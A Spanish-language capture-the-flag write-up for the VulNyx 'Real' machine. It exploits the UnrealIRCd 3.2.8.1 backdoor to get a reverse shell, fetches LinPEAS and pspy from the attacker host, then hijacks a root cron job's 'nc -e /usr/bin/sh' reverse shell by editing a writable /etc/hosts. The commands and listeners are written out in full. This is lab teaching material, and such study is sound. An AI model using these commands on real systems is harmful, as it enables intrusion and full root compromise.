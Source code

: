 # WriteUp: Real | VulNyx

## <mark style="color:yellow;">Fase 1: Reconocimiento Inicial</mark>

Como siempre, mi primer paso fue realizar un reconocimiento exhaustivo de la máquina objetivo. Comencé con un escaneo rápido de `nmap` para descubrir todos los puertos TCP abiertos.

```bash
nmap -n -Pn -sS -p- --min-rate 5000 192.168.56.30

PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
6667/tcp open  irc
6697/tcp open  ircs-u
8067/tcp open  infi-async
```

El escaneo reveló varios puertos interesantes, incluyendo SSH, HTTP y tres puertos asociados con IRC (Internet Relay Chat). Para obtener más detalles, ejecuté un segundo escaneo más profundo para identificar las versiones de los servicios.

```bash
nmap -sVC -p22,80,6667,6697,8067 192.168.56.30

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
...
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
6667/tcp open  irc     UnrealIRCd
6697/tcp open  irc     UnrealIRCd
8067/tcp open  irc     UnrealIRCd
```

El hallazgo clave aquí fue el software del servidor IRC: UnrealIRCd. Este software, especialmente en versiones antiguas, es conocido por haber tenido vulnerabilidades críticas. El servidor web en el puerto 80 mostraba la página por defecto de Apache, y un escaneo con `gobuster` no reveló ningún directorio o archivo de interés, por lo que centré toda mi atención en el servicio IRC.

## <mark style="color:yellow;">Fase 2: Explotación del Backdoor de UnrealIRCd</mark>

No conocía a fondo el servicio IRC, pero una búsqueda rápida sobre "UnrealIRCd exploit" me llevó a una de las vulnerabilidades más famosas: un backdoor intencional introducido en la versión 3.2.8.1. Este backdoor fue agregado al código fuente oficial por un atacante y permitía la ejecución remota de comandos.

Nmap cuenta con un script específico (`irc-unrealircd-backdoor`) para detectar esta vulnerabilidad. Lo ejecuté para confirmar mis sospechas.

```bash
nmap -p6667 --script="irc-unrealircd-backdoor" 192.168.56.30
```

El script confirmó que el servidor era vulnerable. Con esta confirmación, busqué un exploit público y encontré uno muy conveniente en GitHub. Este exploit simplifica el proceso de enviar el payload malicioso al servidor IRC.

[https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor](https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor)

Para recibir la conexión, primero puse un listener de `netcat` en mi máquina atacante en el puerto 4444.

```bash
nc -nlvp 4444
```

Luego, ejecuté el exploit de Python que había descargado, apuntando a la IP de la víctima y al puerto del servicio IRC.

```bash
python3 exploit.py 192.168.56.30 6667 -payload python

# Salida del exploit
Exploit sent successfully!
```

Inmediatamente, recibí una conexión en mi listener, obteniendo una shell en la máquina víctima como el usuario `server`.

```bash
listening on [any] 4444 ...
connect to [192.168.56.22] from (UNKNOWN) [192.168.56.30] 56420
id
uid=1000(server) gid=1000(server) groups=1000(server)
```

La shell que obtuve era básica y no interactiva. Para poder trabajar de manera más cómoda (usar autocompletado, historial, etc.), la actualicé a una TTY completamente funcional siguiendo el procedimiento estándar.

```bash
# 1. Mejorar la shell inicial con Python
python3 -c 'import pty; pty.spawn("/bin/bash")'

# 2. Poner el proceso en segundo plano (background)
Ctrl-Z

# 3. Preparar mi terminal local para la TTY
stty raw -echo; fg

# 4. Configurar la terminal remota
export TERM=xterm
reset
```

Con esto, ya tenía una shell estable y completamente funcional para empezar la fase de post-explotación.

## <mark style="color:yellow;">Fase 3: Enumeración Local y Descubrimiento de Vectores</mark>

Para acelerar el proceso de búsqueda de vectores de escalada de privilegios, decidí utilizar LinPEAS, un script automatizado que busca malas configuraciones, permisos inusuales y vulnerabilidades conocidas en sistemas Linux.

Primero, levanté un servidor HTTP simple en mi máquina Kali desde el directorio donde tenía el script de LinPEAS.

```bash
# En mi máquina Kali
cd /usr/share/peass/linpeas
python3 -m http.server 80
```

Luego, desde la máquina víctima, navegué al directorio `/tmp` (que casi siempre tiene permisos de escritura), descargué el script y lo ejecuté.

```bash
# En la máquina víctima
cd /tmp
wget http://192.168.56.22/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

Después de revisar la extensa salida de LinPEAS, dos hallazgos destacaron inmediatamente:

<figure><img src="../../.gitbook/assets/Pasted image 20251001101911.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/Pasted image 20251001102121.png" alt=""><figcaption></figcaption></figure>

1. Capacidades de Linux: El binario `/usr/bin/ping` tenía la capacidad `cap_net_raw+ep`. Esta capacidad permite a un proceso crear "raw sockets", lo cual es necesario para que `ping` envíe paquetes ICMP. Por sí sola, no es una vulnerabilidad grave.
2. Permisos de Archivos: El archivo `/etc/hosts` tenía permisos de escritura para mi usuario (`server`). ¡Esto sí es una vulnerabilidad crítica! El archivo `/etc/hosts` permite mapear nombres de dominio a direcciones IP a nivel de sistema. Tener control sobre él significa que puedo realizar DNS spoofing local, redirigiendo cualquier solicitud de dominio a una IP de mi elección.

La combinación de estos dos hallazgos era mi principal pista. Podía modificar `/etc/hosts` para que un dominio cualquiera apuntara a mi máquina, y luego usar `ping` para verificar que la redirección funcionaba. Aunque esto no me daba privilegios directamente, era una prueba de concepto sólida de que podía secuestrar el tráfico de cualquier proceso que utilizara nombres de dominio.

## <mark style="color:yellow;">Fase 4: Escalada de Privilegios por DNS Spoofing</mark>

Sabía que había algo más. Para descubrir qué procesos se ejecutaban en segundo plano, utilicé pspy, una herramienta que monitorea procesos en tiempo real sin necesidad de permisos de root. Es excelente para encontrar tareas `cron` o scripts que se ejecutan periódicamente.

Descargué `pspy64` en la máquina víctima (siguiendo el mismo método que con LinPEAS) y lo ejecuté.

```bash
./pspy64
```

Al poco tiempo, un patrón claro apareció en la salida:

<figure><img src="../../.gitbook/assets/Pasted image 20251001183304.png" alt=""><figcaption></figcaption></figure>

Cada minuto, un script llamado `/opt/task` se ejecutaba como UID=0 (root). Dentro de ese script, se ejecutaba un comando `ping` al dominio `shelly.real.nyx`. Esta era la pieza que me faltaba.

Revisé el contenido del script `/opt/task`:

```bash
#!/bin/bash

domain='shelly.real.nyx'

function check(){

       timeout 1 bash -c "/usr/bin/ping -c 1 $domain" > /dev/null 2>&1
   if [ "$(echo $?)" == "0" ]; then
       /usr/bin/nohup nc -e /usr/bin/sh $domain 65000
       exit 0
   else
       exit 1
   fi
}

check
```

El script era una puerta trasera esperando ser activada. Su lógica es simple:

1. Hace `ping` al dominio `shelly.real.nyx`.
2. Si el `ping` es exitoso (código de salida `0`), inmediatamente ejecuta `netcat` para enviar una reverse shell (`/usr/bin/sh`) a ese mismo dominio en el puerto `65000`.

El plan de ataque era ahora evidente. Solo tenía que usar mi permiso de escritura en `/etc/hosts` para hacer que el dominio `shelly.real.nyx` se resolviera a la dirección IP de mi máquina Kali.

Edité el archivo `/etc/hosts`:

```bash
# Agregué la siguiente línea al final del archivo
192.168.56.22   shelly.real.nyx
```

Finalmente, en mi máquina Kali, me puse a la escucha en el puerto `65000`.

```bash
nc -nlvp 65000
```

Esperé menos de un minuto a que la tarea cron se ejecutara. El script `/opt/task`, ahora ejecutándose como `root`, hizo `ping` a `shelly.real.nyx`, mi `ping` respondió, y la condición del `if` se cumplió, lanzando la reverse shell directamente a mi listener.

```bash
listening on [any] 65000 ...
connect to [192.168.56.22] from (UNKNOWN) [192.168.56.31] 45842
id
uid=0(root) gid=0(root) groups=0(root)
```

Con esto, había escalado privilegios y comprometido completamente la máquina.
